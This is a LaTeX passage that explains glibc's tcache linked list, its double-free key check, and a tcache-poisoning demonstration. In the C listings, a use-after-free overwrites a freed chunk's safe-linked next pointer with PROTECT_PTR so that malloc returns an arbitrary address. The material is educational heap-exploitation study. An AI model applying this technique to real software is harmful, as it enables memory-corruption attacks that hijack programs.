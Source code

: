 \documentclass{article}
\begin{document}
The code at Listing~\ref{lst:entry} showcases the Linked List node type used by Tcache. The \emph{next} pointer is self-explanatory and the \emph{key} is a random enough\footnote{Does not need to be cryptographically secure} value that allows Tcache to detect if an allocation has already been free'd. When an allocation that was passed to free is intercepted by Tcache, the \emph{key} field of the allocation is checket to see if it contains the random value, and if it does the entire tcache bucket is checked to see if the allocation is already present in the list. The random value should be random enought that this happens rarely. In case free'd allocation is found in the free list, the process terminates as a double free has happened.

\begin{lstlisting}[language={C},label={lst:tcachewarm},caption={Warming up the tcache}]
 for (int i = 0; i < 3; i++) {
    allocations[i] = malloc(0x20);
    printf("addr of alloc[%d]: %p\n", i, allocations[i]);
  }

  printf("\n");

  free(allocations[2]);
  free(allocations[0]);
  free(allocations[1]);
\end{lstlisting}

In Listing~\ref{lst:tcachewarm} allocations are made that are immediately freed. By doing so the tcache bucket corresponding to the size 0x20 is populated with the following linked list: $alloc_1 \rightarrow alloc_0 \rightarrow alloc_2$. 

\begin{lstlisting}[language={C},label={lst:protectptrs}]
(allocations[1])->next 
        = PROTECT_PTR(&(allocations[1])->next, bad_buffer);
\end{lstlisting}

Now, the \emph{next} pointer of the list overwritten, and allocations are made in order to pop allocations from the stack until our arbitrary address alocation is returned:

\begin{lstlisting}[language={C}]
  assert(fd_alloc1 == allocations[0]);
  /* Only works sometimes due to ASLR
   * Demangle requires the two consecutive chunks to be in the same page
   * assert(demangle((size_t)((tcache_entry*)allocations[1])->next) ==
   * (size_t)allocations[0]);
   */

  /* Use after free */
  (allocations[1])->next = PROTECT_PTR(&(allocations[1])->next, bad_buffer);

  assert(malloc(0x20) == allocations[1]);
  assert(malloc(0x20) == bad_buffer);
\end{lstlisting}
\end{document}
